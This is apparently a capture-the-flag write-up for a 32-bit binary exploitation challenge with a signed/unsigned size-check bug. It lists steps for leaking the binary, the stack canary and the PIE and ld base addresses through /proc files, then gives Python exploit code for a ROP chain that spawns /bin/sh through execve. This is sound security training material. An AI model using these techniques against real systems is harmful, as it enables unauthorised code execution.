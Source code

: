 ### Bug
* signed/unsigned comparison on read\_file size check. 

### Solution
* Leak challenge ELF by reading `/proc/self/exe` with size -1
* Reverse a bit
* Realize ROP available by reading from `/proc/self/fd/0`
* Realize we can get canary from `AT_RANDOM_addr = read_file(/proc/self/auxv)` + `read_mem(AT_RANDOM_addr)`
* Realize we can also find PIE base around `AT_RANDOM_addr`
* If more gadgets needed for rop chain (what the author did):
    - Realize we can also find an `ld` address around `AT_RANDOM_addr`
    - Leak `ld` file path by reading `/prof/self/maps` with size -1
    - Leak `ld` ELF by reading `<ld file path>` with size -1
* Construct rop chain of choice
```
    # ROP to execute SYS_execve("/bin/sh\0", NULL, NULL) using gadgets found in ld-linux.so.2
    # (edx, i.e. const char __user *const __user *envp, is already 0 (NULL))
    # Set ebx to valid memory addr in order to use the push esp gadget
        # pop ebx ; ret
    # Set ebx to pointer to "/bin/sh" on stack
        # push esp ; xor eax, eax ; mov dword ptr [ebx + 0x50], edx ; pop ebx ; pop esi ; pop edi ; ret
    # null out unused argument regs. set edi to syscall number so we can exchange it to eax
        # pop esi ; pop edi ; ret
    # exchange edi, eax to get syscall number into eax
        # xchg edi, eax ; ret
        # or
        # xchg edi, eax ; mov esi, edx ; ret
    # null out ecx (const char __user *const __user *argv) and syscall
        # xor ecx, ecx ; int 0x80
    pop_ebx             = ld_leak + 0x0000236e
    push_esp_pop_ebx    = ld_leak + 0x00023b00
    pop_esi_pop_edi     = ld_leak + 0x00023b07
    xchg_edi_eax        = ld_leak + 0x000249d2
    xor_ecx_ecx_syscall = ld_leak + 0x0001785d

    rop_chain = p32(pop_ebx) + \
                p32(bss+0x100) + \
                p32(push_esp_pop_ebx) + \
                b'/bin' + \
                b'/sh\0' + \
                p32(pop_esi_pop_edi) + \
                p32(0) + \
                p32(0xb) + \
                p32(xchg_edi_eax) + \
                p32(xor_ecx_ecx_syscall)

                                                    #randomly chosen valid ebp
    payload = pad + p32(canary) + p32(0) + p32(0) + p32(bss+0x100) + rop_chain 
```
